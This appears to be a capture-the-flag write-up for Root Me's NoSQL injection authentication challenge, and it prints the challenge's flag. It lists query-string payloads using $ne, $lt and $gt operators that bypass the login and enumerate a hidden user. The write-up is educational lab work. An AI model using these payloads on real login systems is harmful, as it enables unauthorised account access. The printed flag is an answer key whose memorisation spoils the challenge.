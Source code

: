 # [NoSQL Injection Authentication](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-authentication)

Unlike relational databases, NoSQL typically stores data in JSON format with objects with key/value pairs.

So we can try some of [these nifty JSON comparison operators](https://www.ibm.com/support/knowledgecenter/en/SSEPGG_11.1.0/com.ibm.swg.im.dbclient.json.doc/doc/r0061296.html)

If we try the url: `?login[$ne]=anything&pass[$ne]=anything`

In plain English, log us in where `login` does not equal `anything` and `pass` does not equal 
anything

And sure enough we get logged in as `test`!

But there is some hidden username, obviously not `test`. So let's try something else.

`?login[$lt]=test&pass[$ne]=anything`

This looks for user less than (alphabetically less than) `test`.

And we get logged in as `admin`. Let's try greater than.

`?login[$gt]=test&pass[$ne]=anything`

"Bad username or bad password"

Ok so let's try less than `admin`

`?login[$lt]=admin&pass[$ne]=anything`

"Bad username or bad password"

So obviously the username we are looking for is between `admin` and `test` alphabetically.

Let's combine operators...

`?login[$gt]=admin&login[$lt]=test&pass[$ne]=anything`

Got it! There's our flag!

Flag is: **nosqli_no_secret_4_you**
